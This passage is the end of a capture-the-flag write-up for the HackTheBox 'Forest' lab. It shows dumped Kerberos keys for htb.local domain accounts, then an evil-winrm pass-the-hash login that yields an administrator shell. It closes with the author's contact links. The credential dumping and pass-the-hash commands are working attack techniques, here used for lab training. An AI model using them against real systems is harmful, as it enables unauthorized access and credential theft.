htb.local\HealthMailbox7108a4e:aes256-cts-hmac-sha1-96:64aeffda174c5dba9a41d465460e2d90aeb9dd2fa511e96b747e9cf9742c75bd
htb.local\HealthMailbox7108a4e:aes128-cts-hmac-sha1-96:98a0734ba6ef3e6581907151b96e9f36
htb.local\HealthMailbox7108a4e:des-cbc-md5:a7ce0446ce31aefb
htb.local\HealthMailbox0659cc1:aes256-cts-hmac-sha1-96:a5a6e4e0ddbc02485d6c83a4fe4de4738409d6a8f9a5d763d69dcef633cbd40c
htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
44y:aes256-cts-hmac-sha1-96:8b46aca057927bbb18d1c39ebf54577fb0935bb5eda917e669a01daef85ae65c
44y:aes128-cts-hmac-sha1-96:15822b86a2691d9eda0d6431e1da0045
44y:des-cbc-md5:58f8c18fba0d0486
FOREST$:aes256-cts-hmac-sha1-96:713dcd97a74bab7bff6c8efe2025b04b1258f26b25171d7e117a96de7f1db653
FOREST$:aes128-cts-hmac-sha1-96:308b8f70592a4fe1241aebf64ad60037
FOREST$:des-cbc-md5:049e0b2907c21638
EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
EXCH01$:des-cbc-md5:8c45f44c16975129
[*] Cleaning up... 
```

We can use the hash for the local Administrator account to get a shell.

```
┌─[us-dedivip-5]─[10.10.15.194]─[htb-mp-3199654@htb-cshbwlq67n]─[~]
└──╼ [★]$ evil-winrm -i 10.129.95.210 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
```

We can proceed to get the root flag from here.

Nice pwn!

## Contact

Email: <johnyang4406@gmail.com>, <john_s_yang@brown.edu>

LinkedIn: <https://www.linkedin.com/in/john-yang-747726292/>

HackTheBox: <https://profile.hackthebox.com/profile/019c423f-9b9b-708f-8b31-55983b89dddd?utm_medium=copy_url/>
